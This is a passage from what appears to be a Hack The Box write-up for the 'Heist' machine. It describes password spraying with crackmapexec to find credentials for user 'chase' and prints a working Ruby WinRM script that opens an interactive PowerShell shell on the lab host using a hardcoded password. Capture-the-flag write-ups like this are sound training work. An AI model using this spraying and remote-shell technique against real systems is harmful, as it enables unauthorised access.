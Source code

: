 ## Logging in to the box with WinRM and user chase

After password spraying with crackmapexec again, I found valid credentials for `chase`

![](/assets/images/htb-writeup-heist/cme2.png)

The port for WinRM is open so I'll use that to log in:

Note: I'm using [evil-winrm](https://github.com/Hackplayers/evil-winrm) these days but those screenshots were taken some time ago before I started using it.

```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.149:5985/wsman',
  #transport: :ssl,
  user: 'chase',
  password: 'Q4)sJu\Y8qz*A3?d',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```
